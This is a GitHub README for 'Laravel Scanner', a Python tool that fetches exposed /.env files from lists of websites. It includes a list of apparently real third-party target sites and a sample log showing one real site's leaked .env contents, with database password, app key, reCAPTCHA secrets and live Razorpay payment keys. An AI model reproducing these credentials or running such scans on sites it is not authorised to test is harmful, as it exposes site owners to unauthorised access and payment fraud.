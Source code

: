 # Laravel Scanner

![GitHub stars](https://img.shields.io/github/stars/ishanoshada/laravelScanner?style=social)
![GitHub forks](https://img.shields.io/github/forks/ishanoshada/laravelScanner?style=social)

![GitHub license](https://img.shields.io/github/license/ishanoshada/laravelScanner)

---


## Overview

Laravel Scanner is a powerful tool designed to identify Laravel installations by scanning for `.env` files. It automates the process of finding Laravel applications, making it useful for security professionals, developers, and system administrators.

## Features

- Quickly identifies Laravel installations from a list of URLs.
- Supports both file-based input and manual URL entry.
- Multithreaded scanning for efficiency.
- User-friendly interface with color-coded output.
- Logs detailed information about discovered Laravel installations.
- [Author: Ishan Oshada](https://github.com/Ishanoshada)

## Getting Started

### Prerequisites

- Python 3.x
- `requests` library (install via `pip install requests`)

### Installation

1. Clone the repository:

```bash
git clone https://github.com/Ishanoshada/laravelScanner.git
```

2. Change to the project directory:

```bash
cd laravelScanner
```

### Usage

#### Scanning from a File

```bash
python main.py -f urls.txt
```

Replace `urls.txt` with the path to your file containing a list of URLs.

#### Manual Scan

```bash
python main.py
```

Follow the prompts to enter URLs manually. Type `done` when finished.

### Example

```bash
python main.py -f sample_urls.txt
```

### urls/Urls.txt

```plaintext
http://excelpsschool.edu.np/
http://offers.code-pages.com/
http://aram-clinic.de/
http://filmentry.londonscreenings.org.uk/
http://timehrm.com/
http://advapa.com.br/
http://api-analytics.blockchain.mn/
http://www.stillunfold.com/
http://www.okutics.com/
http://xeepp.com/
http://www.martindoherty.co.uk/
http://thanks-navi.info/
http://lcci-metin.com/
http://www.uw-woonidee.nl/
http://seoledger.com/
http://www.sluice.ru/
http://marmaristatilim.com/
http://crontosys.com/
http://aajkal.news/
http://www.a-plus-eg.com/
http://www.baburambhattarai.com/
http://www.modnaredakcia.com/
http://finda.in/
```

You can use this list of URLs as an add-on to your `urls.txt` file when running the Laravel Scanner.

### Envdata.log

```plaintext
##################################################
URL : http://vimuktisanstha.org//.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:bRxqlMC9e3vPy/EnY/KyX7CQRkPDp9KoeG9rZXHr6Qk=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack
LOG_LEVEL=debug

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=u567663563_vimukti
DB_USERNAME=u567663563_vimukti
DB_PASSWORD=1n;:2asD2$@Y

BROADCAST_DRIVER=log
CACHE_DRIVER=file
FILESYSTEM_DRIVER=local
QUEUE_CONNECTION=sync
SESSION_DRIVER=file
SESSION_LIFETIME=120

MEMCACHED_HOST=127.0.0.1

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_MAILER=smtp
MAIL_HOST=mailhog
MAIL_PORT=1025
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null
MAIL_FROM_ADDRESS=null
MAIL_FROM_NAME="${APP_NAME}"

AWS_ACCESS_KEY_ID=
AWS_SECRET_ACCESS_KEY=
AWS_DEFAULT_REGION=us-east-1
AWS_BUCKET=
AWS_USE_PATH_STYLE_ENDPOINT=false

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"

RECAPTCHA_SECRET=6LfVpeUbAAAAAHn8lQIOzG1tQjkoDDzsT8WQJB6c
RECAPTCHA_SITEKEY=6LfVpeUbAAAAAJnvBQ6HAzaAgTgdPxyim6c8Yz9P

RAZOR_KEY=rzp_live_xwzhAeWwtGya5N
RAZOR_SECRET=2yXRAlgr2Iq7wtlgZEVBoGgC 
##################################################
###
...See more
```

**Repository Views** ![Views](https://profile-counter.glitch.me/lavscanner/count.svg)

## Contributing

Contributions are welcome! Please fork the repository and submit a pull request with your improvements.

## License

This project is licensed under the [MIT License](LICENSE).
